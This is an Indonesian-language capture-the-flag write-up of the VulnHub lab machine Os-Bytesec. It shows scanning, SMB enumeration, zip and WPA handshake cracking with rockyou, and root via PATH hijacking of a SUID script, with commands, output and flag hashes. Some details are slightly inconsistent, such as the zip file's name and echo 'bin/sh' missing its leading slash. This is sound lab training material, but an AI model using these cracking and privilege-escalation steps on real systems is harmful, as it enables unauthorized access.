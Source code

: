 ```yaml
---
title: "[VulnHub] Os-Bytesec WriteUp"
date: 2019-04-19T23:11:19+07:00
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - intermediate
---
```


## Information Gathering
### nmap  
`nmap -sV -sC -p- bytesec.vh -oN initial.nmap -v`

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:55:4f:1e:e9:7e:ea:87:69:90:1c:1f:b0:63:3f:f3 (RSA)
|   256 a6:70:f1:0e:df:4e:73:7d:71:42:d6:44:f1:2f:24:d2 (ECDSA)
|_  256 f0:f8:fd:24:65:07:34:c2:d4:9a:1f:c0:b8:2e:d8:3a (ED25519)
MAC Address: 08:00:27:B3:78:46 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Server menjalankan web server di port 80, dan SMB di 139 dan 445.
![index.html](/assets/images/Os-Bytesec/index.jpg){: .img-content }

### dirb 
Saya sempat mencoba dirscanning dan menemukan file `news.png` di `/img`.
![news.png](/assets/images/Os-Bytesec/news.png){: .img-content }
Hmm pakah mesin ini vuln BlueKeep ? :thinking:
>**BlueKeep** is a remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights. ([_microsoft_](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708))

### enum4linux
Karena server menjalankan SMB, maka kita dapat mengumpulkan informasi yang berkaitan dengan SMB dengan tools enum4linux.

enum4linux adalah tools untuk melakukan enumerasi sistem Windows dan  Server Message Block (SMB/Samba) untuk mendapatkan informasi mulai dari domain, OS, versi SMB, hingga user yang ada dalam suatu domain.

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
```

### smbclient
Dari hasil enumerasi enum4linux diatas kita mendapatkan 3 user, setelah dicoba satu-satu hanya user `smb` yang bisa login SMB.
`smbclient //bytesec.vh/smb -U smb -p `
```
smb: \> ls
  .                                   D        0  Mon Nov  4 18:50:37 2019
  ..                                  D        0  Mon Nov  4 18:37:28 2019
  main.txt                            N       10  Mon Nov  4 18:45:38 2019
  safe.zip                            N  3424907  Mon Nov  4 18:50:37 2019
```
Download file `save.zip` saja (karena ternyata `main.txt` cuma file txt isi kata "helo" doang).
### fcrackzip
Karena file `save.zip` ternyata berpassword,  kita bisa bruteforce passwordnya dengan menggunakan tools **fcrackzip**.
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip`

```
PASSWORD FOUND!!!!: pw == hacker1smb:

```
Isi dari `safe.zip` adalah satu gambar dengan nama `secret.jpg` yang gak ada "secret-secret"--nya dan file `user.cap`.  
![deauth](/Os-Bytesec/deauth.jpg){: img_content }
Setelah lihat-lihat isi `user.cap` ternyata banyak sekali paket deauth yang tercapture, maka dapat disimpulkan ini adalah file _capture_-an dari bocah yang mau ngehek wifi pake `aireplay-ng`. Karena asumsinya itu adalah file _three-way handshake_ dari `airodump`/`aireplay`, maka kita bisa crack password yang tercapture dengan menggunakan `aircrack`.
`aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap`
```
Aircrack-ng 1.5.2 

      [00:00:14] 83800/7120712 keys tested (5232.31 k/s) 

      Time left: 22 minutes, 24 seconds                          1.18%

                           KEY FOUND! [ snowflake ]


      Master Key     : 8B A6 3F 95 1C E3 00 CA 30 C2 6E 63 59 61 35 42 
                       AB F7 73 5C D7 AD 3A 10 DB 21 51 64 DC 59 C6 8F 

      Transient Key  : 8E CC 35 6D EF 71 B7 2D 8D D5 03 3E 0D 5F 13 87 
                       BB 50 D3 85 31 BB 25 5A E7 AF 09 0D 85 42 6A 54 
                       60 CB 7F 40 7A E8 95 D5 A2 15 B1 19 66 17 64 CA 
                       7B FE 3D E6 66 6C B8 35 61 67 20 B2 8A C1 00 83 

      EAPOL HMAC     : 9D 5D 3B 71 C9 9E 71 31 58 38 53 A7 92 1C C5 48
```
Lalu apa informasi yang kita dapat? ESSID `user.cap` bernama blackjax dan key bernama `snowflake`. Hmm.. SSH! :smiley: 
## Exploitation
### User Flag
Dan ternyata kita berhasil login berdasarkan informasi yang kita dapat dari file `user.cap` tadi.
```
cat user.txt
  _    _  _____ ______ _____        ______ _               _____ 
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __ 
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|
                                                                 
                                                                 

Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```
### Root Flag
Hal wajib yang perlu dilakukan untuk melakukan privesc di sistem Linux adalah melakukan enumerasi dengan [**linenum.sh**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Cari direktori writeable dan jalankan file linenum disitu.  

Salah satu poin yang cukup interesting yaitu adanya file/program `netscan` di `/usr/bin/` yang mempunyai flag `SUID/SETUID`, flag tersebut berarti kita dapat menjalankan program tsb dengan mendapat privilege/permission sebagai root. File `netscan` menarik karena file/program tersebut tidak ada pada mesin pada umumnya.

#### Netscan
Rupanya program `netscan` hanya berupa "script" dari tools `netstat`.
```
blackjax@nitin:/tmp$ netscan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      1098/sshd       
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      861/smbd        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1041/mysqld     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      861/smbd        
tcp        0    188 192.168.43.97:2525      192.168.43.192:46168    ESTABLISHED 4133/sshd: blackjax
tcp6       0      0 :::2525                 :::*                    LISTEN      1098/sshd       
tcp6       0      0 :::445                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::139                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::80                   :::*                    LISTEN      1129/apache2    
```
Maka dari itu dapat diasumsikan bahwa `netscan` hanyalah skrip buatan netadmin agar `netstat` hanya menampilkan koneksi `established`. Logika diatas dapat dimanfaatkan untuk privilege escalation.
#### PrivEsc
1. Pindah ke `/tmp`, karena attribute direktory `/tmp` drwxrwxrwx.
 `cd /tmp`
2. Buat file bernama "netstat" dengan isi "/bin/sh"
 `echo "bin/sh" > netstat`
3. Tambahkan direktori `/tmp` ke environtment variable / `$PATH` dengan urutan paling awal.
 `export PATH=/tmp:$PATH`
 4. Jalankan lagi `netscan`
 
 Setelah `netscan` dijalankan lagi, ternyata kita berhasil mendapat user root dan flag root :smiley:
```
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __  
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /  
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/   
                     /_____/                           
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me

```

Bingung kenapa logika tsb bisa jalan? _sama saya juga_  
Ok jadi kunci keberhasilan privescnya adalah perubahan environtment variable / `$PATH`. Kita merubah **`netstat` asli** yang berisi tools untuk menampilkan koneksi aktif menjadi **"`netstat`" palsu** yang berisi command untuk memanggil shell. Umumnya dengan hanya merubah `netstat` asli menjadi `netstat` palsu kita juga tidak akan mendapat user root. Namun, karena kita menjalankan program **`netscan`** yang memiliki flag `SUID`, kita berhasil mendapat akses shell root.

Sederhananya, kita merekayasa "arah" pemanggilan file `netstat` pada program `netscan` yang seharusnya memanggil `/usr/bin/netstat` menjadi memanggil `/tmp/netstat` yang berisi perintah untuk memanggil shell. Ditambah dengan flag/attribute `SUID` yang ada di program `netscan`, maka yang terpanggil adalah shell root.

Sekian write up kali ini, see ya next time :heart: 
 


